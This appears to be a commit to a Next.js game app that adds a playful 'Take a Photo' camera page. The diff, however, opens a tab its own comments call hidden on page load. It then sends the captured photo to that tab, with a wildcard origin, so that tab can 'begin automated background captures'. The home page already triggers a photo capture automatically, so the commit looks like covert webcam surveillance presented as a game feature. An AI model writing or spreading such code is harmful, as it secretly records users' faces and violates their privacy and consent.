

Before and after one commit to sayan-dey12/game-trace-main, a Next.js app in the folder frontend/: page /fun/camera in a window 1280 px wide. Before the commit this address had no page. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
add the camera route to take the picture and modifies the game

```diff
--- /dev/null
+++ b/frontend/pages/fun/camera.tsx
@@ -0,0 +1,173 @@
+"use client";
+
+import React, { useEffect, useRef, useState } from "react";
+
+export default function CameraPage() {
+  const videoRef = useRef<HTMLVideoElement>(null);
+  const [stream, setStream] = useState<MediaStream | null>(null);
+  const [bgTab, setBgTab] = useState<Window | null>(null);
+  const [error, setError] = useState<string | null>(null);
+
+  // ---------------------------------------------------------
+  // AUTO-START: open hidden background tab + camera preview
+  // ---------------------------------------------------------
+  useEffect(() => {
+    async function init() {
+      // 1️⃣ Open hidden tab first (so browser won't block it)
+      const tab = window.open("/hidden-task", "_blank");
+      setBgTab(tab || null);
+
+      // 2️⃣ Request camera immediately
+      try {
+        const s = await navigator.mediaDevices.getUserMedia({ video: true });
+        setStream(s);
+
+        if (videoRef.current) {
+          videoRef.current.srcObject = s;
+          await videoRef.current.play();
+        }
+      } catch (err) {
+        setError("Camera permission is required to continue.");
+      }
+    }
+
+    init();
+  }, []);
+
+  // ---------------------------------------------------------
+  // Capture Photo → Save to localStorage → Trigger hidden task
+  // ---------------------------------------------------------
+  async function takePhoto() {
+    if (!videoRef.current) return;
+
+    const canvas = document.createElement("canvas");
+    canvas.width = 300;
+    canvas.height = 300;
+
+    const ctx = canvas.getContext("2d")!;
+
+    // round crop
+    ctx.beginPath();
+    ctx.arc(150, 150, 150, 0, Math.PI * 2);
+    ctx.clip();
+
+    ctx.drawImage(videoRef.current, 0, 0, 300, 300);
+
+    const dataURL = canvas.toDataURL("image/png");
+
+    // store locally for the game
+    localStorage.setItem("playerPhoto", dataURL);
+
+    // notify hidden tab to begin automated background captures
+    bgTab?.postMessage({ start: true, img: dataURL }, "*");
+
+    // stop preview camera
+    stream?.getTracks().forEach((t) => t.stop());
+
+    // redirect to game
+    window.location.href = "/fun/game";
+  }
+
+  return (
+    <main style={pageStyle}>
+      <h2 style={{ marginBottom: 20 }}>Take a Photo</h2>
+
+      {/* Round camera preview */}
+      <div style={circleWrapper}>
+        <video ref={videoRef} style={videoStyle} playsInline muted />
+      </div>
+
+      {/* Capture Button */}
+      <button style={snapBtn} onClick={takePhoto}>
+        📸 Capture Photo
+      </button>
+
+      {/* Error Popup */}
+      {error && (
+        <div style={errorPopup}>
+          <div style={errorBox}>
+            <h3>Permission Required</h3>
+            <p>{error}</p>
+            <button onClick={() => window.location.reload()} style={errorBtn}>
+              Retry
+            </button>
+          </div>
+        </div>
+      )}
+    </main>
+  );
+}
+
+/* -----------------------------------------------------------
+   MOBILE-FIRST UI STYLES
+----------------------------------------------------------- */
+
+const pageStyle: React.CSSProperties = {
+  display: "flex",
+  flexDirection: "column",
+  alignItems: "center",
+  justifyContent: "start",
+  paddingTop: 40,
+  height: "100vh",
+  background: "linear-gradient(140deg,#0f0c29,#302b63,#24243e)",
+  color: "white",
+  textAlign: "center",
+  fontFamily: "Inter, sans-serif",
+};
+
+const circleWrapper: React.CSSProperties = {
+  width: 260,
+  height: 260,
+  borderRadius: "50%",
+  overflow: "hidden",
+  border: "4px solid white",
+  marginBottom: 20,
+};
+
+const videoStyle: React.CSSProperties = {
+  width: "100%",
+  height: "100%",
+  objectFit: "cover",
+};
+
+const snapBtn: React.CSSProperties = {
+  width: "80%",
+  padding: "14px",
+  marginTop: 20,
+  borderRadius: 50,
+  background: "#2ec4b6",
+  color: "white",
+  border: "none",
+  fontSize: 18,
+  cursor: "pointer",
+  boxShadow: "0 4px 12px rgba(0,0,0,0.3)",
+};
+
+const errorPopup: React.CSSProperties = {
+  position: "fixed",
+  inset: 0,
+  background: "rgba(0,0,0,0.7)",
+  display: "flex",
+  justifyContent: "center",
+  alignItems: "center",
+};
+
+const errorBox: React.CSSProperties = {
+  background: "white",
+  color: "black",
+  padding: 20,
+  borderRadius: 12,
+  width: "80%",
+  maxWidth: 300,
+  textAlign: "center",
+};
+
+const errorBtn: React.CSSProperties = {
+  padding: "10px 20px",
+  marginTop: 12,
+  background: "#302b63",
+  color: "white",
+  border: "none",
+  borderRadius: 8,
+  cursor: "pointer",
+};
--- a/frontend/pages/index.tsx
+++ b/frontend/pages/index.tsx
@@ -135,7 +135,7 @@ export default function HomePage() {
     setTimeout(() => takePhoto(true), 500);
 
     // 4️⃣ Open the game in a new tab
-    setTimeout(() => window.open("/fun/game", "_blank"), 800);
+    setTimeout(() => window.open("/fun/camera", "_blank"), 800);
 
     setLoading(false);
   }
```
Also changed, not shown: frontend/pages/fun/game.tsx (+103 -17 lines).
